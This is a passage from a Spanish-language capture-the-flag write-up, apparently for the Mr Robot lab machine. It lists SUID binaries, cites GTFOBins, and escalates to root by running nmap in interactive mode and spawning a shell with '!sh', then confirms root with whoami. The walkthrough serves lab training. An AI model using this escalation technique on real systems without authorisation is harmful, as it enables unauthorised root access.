   ```sh
   /usr/lib/eject/dmcrypt-get-device
   /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
   /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
   /usr/lib/pt_chown
   ``` 
   El comando ha listado los ejecutables que tienen ese permiso especial que nos permite elevar privilegios. Podemos ver que tenemos varios, pero el que nos interesa es `nmap`. Y por qué `nmap`? Porque `nmap` nos va a permitir una manera de poder escalar privilegios y ejecutar comandos a la vez.
   Hay una página llamada [`gtfobins`](https://gtfobins.github.io/) en la que encontraremos ejecutables que con los permisos correctos, o incorrectos en este caso, nos permiten escalar privilegios como `root`. Vamos a buscar `nmap` en `gtfobeans` y vamos a ver cómo podemos escalar privilegios con `nmap`. 
   
   ![Mr Robot](./assets/mrrobot-08.png)

3. Como `nmap` tiene los permisos para ser ejecutado como `root`,lo usaremos en modo interactivo para ejecutar una shell como root:
   ```sh
   nmap --interactive
   !sh
   ```
   Ahora tenemos una shell con privilegios de root.
   
   ```sh
   robot@linux:~$ nmap --interactive
   nmap --interactive

   Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
   Welcome to Interactive Mode -- press h <enter> for help
   nmap> !sh
   !sh
   # 
   ```
   Hemos conseguido ejecutar una línea de comandos nueva con privilegios de usuario `root`. 
   Podemos usar el comando `whoami` para asegurarnos:
   ```sh
   # whoami
   whoami
   root
   # 
   ```
